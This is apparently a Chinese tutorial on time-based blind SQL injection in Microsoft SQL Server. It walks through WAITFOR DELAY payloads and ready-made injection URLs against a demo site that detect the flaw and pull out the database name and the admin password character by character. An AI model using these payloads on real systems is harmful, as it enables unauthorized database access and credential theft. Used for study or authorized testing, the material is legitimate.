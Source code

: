 ## 1、简介

WAITFOR是SQLServer中Transact-SQL提供的一个流程控制语句。它的作用就是等待特定时间，然后继续执行后续的语句。它包含一个参数DELAY，用来指定等待的时间。waitfor delay '0:0:5' 等待5秒再执行操作 ，页面将5秒之后返回 

```sql
select 1 waitfor delay '0:0:5'
```

## **2、判断注入**

```http
http://www.demo1.com/index.aspx?id=1 waitfor delay '0:0:5'
```

页面延时5秒返回

SUBSTRING 截取字符串

## **3、查询信息**

数据库版本 (select @@version)

数据库名 (select db_name())

获取密码 (select password from admin)

## **4、截取字符判断法**

DB_NAME()        mydb

SUBSTRING：从第一位开始取一位

```sql
select SUBSTRING(DB_NAME(),1,1)
```

if m=m 

```sql
select * from art where id=1 if(SUBSTRING(DB_NAME(),1,1)=CHAR(109)) waitfor delay '0:0:5'
select * from art where id=1 if(SUBSTRING(DB_NAME(),1,1)='m') waitfor delay '0:0:5' 
```

测试

```http
http://www.demo1.com/index.aspx?id=1 if(SUBSTRING(DB_NAME(),1,1)=CHAR(109)) waitfor delay '0:0:5' --
```

![image-20210409233841487](../../acess/image-20210409233841487.png) 

```http
http://www.demo1.com/index.aspx?id=1 if(SUBSTRING(DB_NAME(),1,1)='m') waitfor delay '0:0:5'
```

## 5、 ascii码半截法

ascii 把字符转成ascii码

```sql
select * from art where id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))=109 WAITFOR DELAY '0:0:5'
```

```http
http://www.demo1.com/index.aspx?id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))=109 WAITFOR DELAY '0:0:5' --
```

![image-20210409234012924](../../acess/image-20210409234012924.png) 

```sql
select * from art where id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))>50 WAITFOR DELAY '0:0:5'
```

```http
http://www.demo1.com/index.aspx?id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))>50 WAITFOR DELAY '0:0:5'--
```

1-126 遍历去对比要好一些 假如数据大的话就可以节省很多的时间。0-126 共127个。（高等数学中的二分法）

```bash
大于50 值在51-127 
大于74 值在74-127
以此类推
```

查询password 的第一个密文的ascii码

```sql
select * from art where id=1 IF ASCII(SUBSTRING((select password from admin),1,1))=101 WAITFOR DELAY '0:0:5'
```

测试

```http
http://www.demo1.com/index.aspx?id=1 IF ASCII(SUBSTRING((select password from admin),1,1))=101 WAITFOR DELAY '0:0:5' --
```


